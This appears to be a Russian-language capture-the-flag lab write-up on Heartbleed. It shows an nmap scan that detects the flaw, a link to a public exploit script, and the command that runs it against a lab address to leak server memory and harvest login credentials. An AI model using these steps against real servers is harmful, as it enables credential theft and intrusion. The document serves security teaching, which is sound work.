



# Лабораторная работа #3 HeartBleed

Заходим на сайт [http://heartbleed.myctf.ru](http://heartbleed.myctf.ru/) видим что нас перекидывает на https.


Проверяем веб-сервер на heartbleed:

```shellsession
# nmap -p 443 --script ssl-heartbleed <target>
```

В ответ получаем

```shellsession
PORT STATE SERVICE
443/tcp open https
| ssl-heartbleed:
|   VULNERABLE:
```

Это говорит об уязвимости сервера.
Находим любой скрипт для эксплуатации (вытягивание данных), например:
[https://gist.githubusercontent.com/eelsivart/10174134/raw/5c4306a11fadeba9d9f9385cdda689754ca4d362/heartbleed.py](https://gist.githubusercontent.com/eelsivart/10174134/raw/5c4306a11fadeba9d9f9385cdda689754ca4d362/heartbleed.py)

Запускаем

```shellsession
# ./heartbleed.py -n 100 192.168.241.137
```



Среди кучи мусора видим запрос с валидными кредами на вход, вводим эти данные, получаем флаг.


Какой флаг вы получили?

_____________________